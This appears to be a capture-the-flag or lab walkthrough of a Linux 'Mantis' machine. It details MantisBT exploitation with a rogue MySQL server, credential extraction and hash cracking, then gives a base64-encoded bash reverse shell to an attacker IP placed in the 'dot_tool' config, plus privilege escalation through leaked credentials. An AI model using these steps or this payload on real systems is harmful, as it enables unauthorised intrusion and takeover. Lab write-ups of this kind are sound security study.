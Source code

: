 # 🐜 Mantis (Linux)

## 🌐 Initial Foothold

- Discovered a **bugtracker web page** running on port `80`.
- Noticed `/vendor/` directory with files last modified in **2017** → Indicated old version.
- Found relevant [MantisBT exploit (23173)](https://mantisbt.org/bugs/view.php?id=23173).

### 🚨 Exploitation Steps

1. Cloned the [Rogue-MySql-Server](https://github.com/allyshka/Rogue-MySql-Server).
2. Gave execution permissions and ran the rogue MySQL server:
   ```bash
   php roguemysql.php
   ```
3. Triggered malicious URL to initiate interaction:
   ```
   http://192.168.218.204/bugtracker/admin/install.php?install=3&hostname=192.168.45.194
   ```
4. Located config path via [Mantis config repo](https://github.com/mantisbt/mantisbt/tree/master/config):
   ```bash
   /var/www/html/bugtracker/config/config_inc.php
   ```
5. Extracted MySQL credentials and connected with:
   ```bash
   mysql -u root -p'' -h 192.168.218.204 -P 3306 --skip-ssl
   ```
6. Retrieved user hash from `mantis_user_table` → Cracked via [CrackStation](https://crackstation.net/) → Password: `prayingmantis`

### 💣 Gaining RCE

- Logged in and navigated to:  
  `Manage → Manage Configuration → Configuration Report`
- Created two entries:
  1. `relationship_graph_enable` = `1` (Integer)
  2. `dot_tool` = 
     ```bash
     echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ1LjE5NC8zMzA2IDA+JjE= | base64 -d | /bin/bash;
     ```
     (This base64 decodes to a bash reverse shell payload)

- Triggered the payload via:
  ```
  http://192.168.218.204/bugtracker/workflow_graph_img.php
  ```

- ✅ Got reverse shell!

## 🧑‍💻 Privilege Escalation

- Ran `pspy32s` → Saw scheduled process leaking credentials.
- Reused credentials to `su mantis` with password: `BugTracker007`
- Checked sudo permissions:
  ```bash
  sudo -l
  ```
- 🔓 Root access achieved.

---

## 📁 Git Integration Commands

```bash
# Move the file to the linux walkthroughs folder
mv ~/Downloads/Mantis.md ~/Downloads/walkthroughs_project_template/linux/Mantis.md

# Change directory to the project root
cd ~/Downloads/walkthroughs_project_template

# Add all changes to git
git add .

# Commit the changes with a descriptive message
git commit -m "Added Mantis (Linux) walkthrough"

# Push the commit to GitHub
git push
```
